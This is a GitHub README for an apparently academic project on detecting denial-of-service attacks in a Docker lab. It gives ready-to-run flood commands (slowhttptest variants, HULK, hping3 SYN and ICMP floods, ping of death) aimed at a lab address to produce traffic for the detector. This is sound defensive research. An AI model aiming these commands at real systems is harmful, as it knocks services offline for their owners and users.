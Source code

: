 # Intelligent-forensics-for-the-automatic-anomaly-detection-in-distributed-infrastructures

![architecture](./images/virtual.png)

# NEW VERSION

## Start the network

To start the network run
```
docker-compose up -d
```
in newenvironment folder
## Start the experiment

To start the experiment enter the servidor container
```
docker exec -it newenvironment_servidor_1 /bin/bash
```
and run
```
python3 /servidor/output/DoSdetector/1clock.py
```

## Attack

To start the attack, enter the attacker:
```
docker exec -it newenvironment_attacker_1 /bin/bash
```
### Slowhttptest
```
slowhttptest -H -g -c 5260 -i 10 -r 30 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3
```
#### SLOWLORIS
```
slowhttptest -c 1000 -H -g -i 10 -r 200 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3
```
#### SLOW HTTP POST
```
slowhttptest -c 3000 -B -g -i 110 -r 200 -s 8192 -t POST -u http://10.100.0.2:3000/ -x 10 -p 3
```
#### RANGE HEADER
```
slowhttptest -R -u http://10.100.0.2:3000/ -t HEAD -c 1000 -a 10 -b 3000 -r 500
```
#### SLOW READ
```
slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://10.100.0.2:3000/ -p 3
```
### HULKv3 - HTTP flood attack
```
python3 HULK-v3/hulk_launcher.py server http://10.100.0.2:3000
```
enter another terminal with:
```
docker exec -it newenvironment_attacker_1 /bin/bash
```
and run:
```
python3 HULK-v3/hulk_launcher.py client -n 10
```
### HULKBarry Shteiman
```
python3 hulkBasic/1hulk.py http://10.100.0.2:3000
```

### hping3
#### SYN flood
```
hping3 -S -p 3000 --flood 10.100.0.2
```
#### ICMP flood
```
hping3 -p 3000 --icmp --flood 10.100.0.2 
```
#### Ping od Death
```
python3 pingOfDeath/pingOfDeath.py

```
## Results

To see the analysis enter the admin-fluentd container:
```
docker exec -it newenvironment_admin-fluentd_1 /bin/bash
```
enter the folder output to see the logs or the folder shared-volume/prediction/livePrediction to see the live result in the file named with the current date.
Otherwise, it is possible to analyse a time interval of a specific log file present in output/dos with:
```
python3 /shared-volume/prediction/intervalModelUser.py /output/DoS/[nameofthelog.log]
```
e.g.
```
python3 /shared-volume/prediction/intervalModelUser.py /output/DoS/dos.log.20240521.log
```
Finally the program will ask to insert a time interval to analyse.
It is also possible to predict a single line of log by running manualModelUser.py.











# Advices
If the images gets modified by changing the dockerfiles, to be effective the image should be builded again. To do so run "docker-compose build". Then again "docker-compose up -d".
